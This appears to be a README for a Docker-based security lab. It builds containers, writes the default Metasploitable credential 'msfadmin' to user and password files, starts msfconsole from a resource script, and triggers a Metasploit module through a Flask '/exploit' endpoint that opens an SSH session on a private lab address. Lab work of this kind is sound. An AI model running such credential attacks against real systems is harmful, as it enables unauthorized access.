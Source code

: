 # If containers are running:
    docker compose down --remove-orphans


# Build and Start All Containers
docker compose up -d --build

# Check the status of all containers to confirm they’re up:
docker ps

# Enter the operator container:
docker exec -it operator /bin/bash

# Create the files:
cd /home
echo "msfadmin" > /home/user_file.txt
echo "msfadmin" > /home/pass_file.txt

# Once inside, start msfconsole with the required configuration file:
msfconsole -r /usr/src/metasploit-framework/docker/msfconsole.rc

# In a separate terminal, check the logs for eshu to ensure the Flask app started successfully:
docker logs eshu

# Look for a line like this to confirm it’s listening on 10.1.1.99:5000:
 * Running on http://10.1.1.99:5000

# Once eshu is confirmed to be running, send a test request from your host machine:
curl -X POST http://10.1.1.99:5000/exploit

# You should see:
{"result":{"job_id":0,"uuid":"OgDZgfrXSIjXAJOOHMky4Uq9"},"status":"module executed successfully"}


# You can interact with the active SSH session from msfconsole by running:
sessions -i 1